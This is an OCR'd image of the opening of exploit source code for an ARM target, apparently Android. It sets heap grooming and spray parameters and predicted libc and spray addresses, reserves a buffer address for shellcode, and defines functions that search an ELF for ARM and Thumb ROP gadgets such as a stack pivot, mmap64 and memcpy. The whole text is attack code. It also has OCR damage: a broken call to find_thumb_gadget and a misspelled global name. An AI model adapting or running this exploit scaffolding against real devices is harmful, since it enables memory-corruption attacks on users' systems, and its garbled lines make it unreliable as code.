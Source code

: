 ```

# heap grooming configuration
alloc_size = 0x20
groom_count = 0x4
spray_size = 0x10000
spray_count = 0x10

# address of the buffer we allocate for our shellcode
mmap_address = 0x90000000

# addresses that we need to predict
libc_base = 0xb6ebd000
spray_address = 0xb3000000

# ROP gadget addresses
stack_pivot = None
pop_pc = None
pop_r0_r1_r2_r3_pc = None
pop_r4_r5_r6_r7_pc = None
ldr_lr_bx_lr = None
ldr_lr_bx_lr_stack_pad = 0
mmap64 = None
memcpy = None

def find_arm_gadget(e, gadget):
    gadget_bytes = asm.asm(gadget, arch='arm')
    gadget_address = None
    for address in e.search(gadget_bytes):
        if address % 4 == 0:
            gadget_address = address
            if gadget_bytes == e.read(gadget_address, len(gadget_bytes)):
                print asm.disasm(gadget_bytes, vma=gadget_address, arch='arm')
                break
    return gadget_address

def find_thumb_gadget(e, gadget):
    gadget_bytes = asm.asm(gadget, arch='thumb')
    gadget_address = None
    for address in e.search(gadget_bytes):
        if address % 2 == 0:
            gadget_address = address + 1
            if gadget_bytes == e.read(gadget_address - 1, len(gadget_bytes)):
                print asm.disasm(gadget_bytes, vma=gadget_address-1, arch='thumb')
                break
    return gadget_address

def find_gadget(e, gadget):
    gadget_address = find_thumb_gadget_e, gadget)
    if gadget_address is not None:
        return gadget_address
    return find_arm_gadget(e, gadget)

def find_rop_gadgets(path):
    global memcpy
    global mmap64
    global stack_pivot
    global pop_pc
    global pop_r0_r1_r2_r3_pc
    global pop_r4_r5_r6_r7_pc
    global ldr_lr_bx_lr
    global ldr_ldr_bx_lr_stack_pad

    e = elf.ELF(path)
```